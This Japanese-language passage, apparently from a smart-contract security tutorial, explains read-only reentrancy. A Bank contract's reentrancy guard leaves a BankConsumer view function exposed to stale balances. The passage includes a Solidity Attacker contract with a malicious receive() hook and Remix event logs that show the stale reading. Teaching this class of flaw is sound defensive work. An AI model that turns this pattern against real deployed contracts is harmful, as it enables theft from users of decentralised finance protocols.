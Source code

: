 bank の引き出し機能は再連続性から保護されている。しかし、このガードは Contract 自体にのみ適用され、他のシステムには適用されない。withdraw の外部呼び出しの実行フローは攻撃者に乗っ取られる可能性があり、攻撃者は他のプロジェクトとやりとりしながら、誤解を招くような残高を提示するスマート・コントラクトを作ることができる。

この場合、BankConsumer はそのようなプロジェクトであり、単に説明のためにビュー関数を公開しているに過ぎない。このようなビュー関数は、例えば株式の割り当てや、ユーザーが所有する株式より多くの株式を清算することを防ぐチェックのために、内部的に他の場所で利用することができる。Bank Contract によって公開された古い残高は、悪意のある receive 関数を設計することによって悪用することができる：

```sol
contract Attacker {
    event Checkpoint(uint256 balance);

    Bank private bank;
    BankConsumer private consumer;

    constructor(address _bank, address _consumer) payable {
        bank = Bank(_bank);
        consumer = BankConsumer(_consumer);
    }

    function attack() public {
        emit Checkpoint(consumer.getBalance(address(this)));
        bank.deposit{value: 1 ether}();
        bank.withdraw();
        emit Checkpoint(consumer.getBalance(address(this)));
    }

    receive() external payable  {
        emit Checkpoint(consumer.getBalance(address(this)));
        // more malicious code here
    }
}
```

Attacker Contract は Checkpoint Event を記録し、BankConsumer Contract に表示される残高が古いことを示す。Remix でシステムがセットアップされ、attack function が実行されると、以下のイベントが Attacker コントラクトによって logging されます：

```json
[
  {
    "from": "0xE3Ca443c9fd7AF40A2B5a95d43207E763e56005F",
    "topic": "0xde5ae8a37da230f7df39b8ea385fa1ab48e7caa55f1c25eaaef1ed8690f36998",
    "event": "Checkpoint",
    "args": {
      "0": "0",
      "balance": "0"
    }
  },
  {
    "from": "0xE3Ca443c9fd7AF40A2B5a95d43207E763e56005F",
    "topic": "0xde5ae8a37da230f7df39b8ea385fa1ab48e7caa55f1c25eaaef1ed8690f36998",
    "event": "Checkpoint",
    "args": {
      "0": "1000000000000000000",
      "balance": "1000000000000000000"
    }
  },
  {
    "from": "0xE3Ca443c9fd7AF40A2B5a95d43207E763e56005F",
    "topic": "0xde5ae8a37da230f7df39b8ea385fa1ab48e7caa55f1c25eaaef1ed8690f36998",
    "event": "Checkpoint",
    "args": {
      "0": "0",
      "balance": "0"
    }
  }
]
```